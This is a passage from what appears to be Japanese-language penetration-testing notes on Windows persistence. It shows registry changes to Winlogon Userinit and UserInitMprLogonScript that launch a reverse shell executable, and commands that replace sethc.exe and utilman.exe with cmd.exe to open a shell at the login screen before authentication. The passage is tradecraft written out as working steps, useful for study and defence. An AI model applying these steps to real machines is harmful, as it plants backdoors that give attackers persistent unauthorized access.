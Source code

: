 ```text
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

Userinit: C:\Windows\System32\userinit.exe,
Shell: explorer.exe

次のように変更する。
Userinit: C:\Windows\System32\userinit.exe, C:\Windows\revshell.exe
```

### ログオンスクリプト

この環境変数は HKLM に相当するものが無いので、ユーザーごとに設定する必要がある。

```text
HKCU\Environment

（名前）UserInitMprLogonScript
（Type）REG_EXPAND_SZ
（Data）c:\Windows\revshell.exe
```

## ログオン画面

### スティッキーキー

Shift を 5 回押すことで、スティッキーキーをアクティブ化できる。そのとき、  
C:\Windows\System32\sethc.exe  
が実行される。  
これを cmd.exe に置き換えることで、認証前のログイン画面の状態でも、Shift キーを 5 回押すことでシェルを取得できる。

```ps
# 所有権を取得
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
# 置き換え
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

### Utilman

ロック画面中の簡単操作オプションを提供するアプリケーション。  
スティッキーキーと同様、cmd.exe で置き換える。

```ps
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

ロック画面で簡単操作ボタンを押すだけでシェルを取得できる。

## コンポーネント オブジェクト モデル ハイジャック
